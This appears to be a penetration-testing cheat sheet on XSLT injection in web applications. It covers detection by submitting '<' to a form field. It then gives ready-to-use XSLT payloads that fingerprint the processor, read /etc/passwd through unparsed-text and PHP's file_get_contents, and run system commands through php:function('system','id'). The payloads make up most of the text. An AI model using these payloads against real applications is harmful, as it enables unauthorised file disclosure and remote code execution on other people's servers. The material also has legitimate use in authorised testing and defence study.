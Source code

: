 We can try to pass to a form field an "<" parentesis. If the server return an error, it may indicates the presence of a XSLT injection.

### Information disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability.

### Local file inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function unparsed-text that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. However, if the XSLT library is configured to support PHP functions, we can call the PHP function file_get_contents using the following XSLT element:

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

### Remote code execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function system to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

